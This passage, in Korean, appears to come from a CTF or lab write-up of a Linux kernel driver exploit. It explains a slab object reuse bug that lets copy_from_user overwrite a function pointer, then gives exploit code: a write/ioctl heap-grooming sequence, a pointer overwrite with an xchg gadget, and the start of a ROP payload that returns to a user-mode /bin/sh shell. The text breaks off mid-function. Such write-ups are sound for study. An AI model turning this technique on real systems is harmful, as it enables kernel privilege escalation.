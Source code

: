 따라서 `ptr`, `_fp`가 같은 슬랩 객체를 가리키게 되고, `kmalloc()`의 `size`가 커서 할당에 실패하더라도 `copy_from_user()`는 실행되므로 `_fp`의 함수 포인터를 덮어쓸 수 있다.

``` c
    fd2 = open("/dev/input_test_driver", O_RDWR);
    memset(payload, 0x43, 392);
    write(fd2, payload, 416);
    write(fd2, payload, 0x500000);

    ioctl(fd2, 0x1337, NULL);

    *(uint64_t *)(payload + 408) = xchg_64;
    write(fd2, payload, 0x510000);

    ioctl(fd2, 0x7331, NULL);
```

Exploit 흐름을 설명하면,

1. `write()`를 통해 416 바이트짜리 슬랩 객체 할당
2. `write()`를 다시 호출해서 
   - 기존 슬랩 객체를 해제, `kmalloc-512`로 이동
   - 의도적으로 큰 사이즈의 객체를 요청해 갱신 실패
3. `ioctl()`을 통해 `_fp` 할당, 이 때 `kmalloc-512`에서 슬랩 객체를 받아오게 됨
4. `write()`를 마지막으로 호출해서 `ptr`, 즉 `_fp`에 416 바이트를 쓰는 과정에서 함수 포인터 overwrite

함수 포인터를 바꿔 rip control만 가능한 상황이므로 `xchg eax, esp` 가젯과 fake stack을 이용해 rop payload를 전달할 수 있다.


## 0x03. Payload
``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdint.h>
#include <sys/mman.h>
#include <linux/input.h>

void shell() {
    execl("/bin/sh", "sh", NULL);
}

struct register_val {
    uint64_t user_rip;
    uint64_t user_cs;
    uint64_t user_rflags;
    uint64_t user_rsp;
    uint64_t user_ss;
} __attribute__((packed));

struct register_val rv;

void backup_rv(void) {
    asm("mov rv+8, cs;"
        "pushf; pop rv+16;"
        "mov rv+24, rsp;"
        "mov rv+32, ss;"
       );
    rv.user_rip = &shell;
}

void set_fake_stack(void *xchg_64) {
```